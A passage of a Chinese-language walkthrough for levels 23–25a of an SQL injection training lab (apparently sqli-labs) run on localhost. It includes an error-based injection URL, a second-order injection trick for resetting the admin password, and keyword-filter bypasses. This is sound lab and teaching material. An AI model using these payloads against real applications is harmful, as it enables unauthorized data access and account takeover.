

## 第二十三关

这一次把注释符过滤了



```php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```

报错注入可以

```
http://localhost/Less-23/?id=1' and (updatexml(1, concat(0x3a, (select database()),0x3a ) ,1)) and '1' ='1
```



## 第二十四关

二次注入，注册一个用户名 `admin '#` 就可以修改admin的密码了

## 第二十五关

过滤了 `and` 和 `or` ，

可以双写绕过或者使用 `&&` 和 `||`





## 25a

类似的过滤了and和or，而且没有单引号保护，双写绕过



## 第二十六关
